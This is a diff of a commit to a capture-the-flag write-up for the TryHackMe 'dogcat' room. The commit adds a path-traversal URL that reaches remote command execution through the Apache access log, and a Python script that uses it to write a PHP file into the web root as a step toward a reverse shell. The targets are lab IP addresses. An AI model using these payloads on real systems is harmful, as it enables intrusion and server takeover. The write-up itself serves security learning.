

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: THM/dogcat.md, 2 parts joined by grey strips. Shown at 97% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/THM/dogcat.md
+++ b/THM/dogcat.md
@@ -305,7 +305,7 @@ http://10.10.43.88/?view=dog
 <img width="1917" height="655" alt="image" src="https://github.com/user-attachments/assets/de9e64ea-e606-4a96-8d69-e81751f4f0c4" />
 
 
-> ## try lfi
+> ## LFI
 
 ```
 http://10.10.43.88/?view=php://filter/resource=dog
@@ -561,3 +561,42 @@ view-source:http://10.10.43.88/?view=dog/../../../../../../../../../var/log/apac
 
 
 <img width="1104" height="87" alt="image" src="https://github.com/user-attachments/assets/de4a279e-d4f8-437d-ae9c-81e79cb19fbe" />
+
+
+> ## pwd
+
+```
+http://10.10.106.210/?view=dog/../../../../../../../../../var/log/apache2/access.log&ext=&c=pwd
+```
+
+<img width="1448" height="115" alt="image" src="https://github.com/user-attachments/assets/d7fad5f4-d16c-4eae-a766-8f792973dc57" />
+
+> ## so if we can put file with reverse shell in this path we can access it form browser and get shell
+
+> ## test
+
+```python
+#!/usr/bin/env python3
+import requests
+import base64
+
+url = "http://10.10.106.210/"
+
+php_code = "<?php phpinfo(); ?>"
+b64 = base64.b64encode(php_code.encode()).decode()
+
+
+cmd = f"echo {b64} | base64 -d > /var/www/html/test.php"
+
+params = {
+    "view": "dog/../../../../../../var/log/apache2/access.log",
+    "ext": "",
+    "c": cmd
+}
+
+r = requests.get(url, params=params, timeout=15)
+print("HTTP", r.status_code)
+print(r.text[:800])
+
+```
+
````
Also changed, not shown: other parts of THM/dogcat.md (+6 -0 lines).
